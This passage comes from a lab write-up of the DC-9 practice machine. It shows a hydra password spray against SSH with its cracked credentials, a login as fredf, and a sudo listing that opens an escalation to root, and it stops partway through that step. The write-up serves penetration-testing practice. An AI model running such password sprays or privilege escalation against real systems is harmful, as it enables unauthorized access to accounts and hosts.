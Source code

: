 Save it to `loot/passwords-found-on-post-it-notes.txt`

Password spray for all users on host

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ hydra -L users.lst -P loot/passwords-found-on-post-it-notes.txt ssh://DC-9 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-04 14:09:12
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 108 login tries (l:18/p:6), ~27 tries per task
[DATA] attacking ssh://DC-9:22/
[22][ssh] host: DC-9   login: fredf   password: B4-Tru3-001
[STATUS] 53.00 tries/min, 53 tries in 00:01h, 55 to do in 00:02h, 4 active
```

```bash
┌──(bravosec㉿fsociety)-[~/pgplay/DC-9]
└─$ cssh fredf@DC-9 B4-Tru3-001
Warning: Permanently added 'dc-9' (ED25519) to the list of known hosts.
Linux dc-9 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
fredf@dc-9:~$ id
uid=1003(fredf) gid=1003(fredf) groups=1003(fredf)
```

## From fredf to root


### Sudo - File write via python script

```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

```bash
fredf@dc-9:~$ file /opt/devstuff/dist/test/test
/opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
```
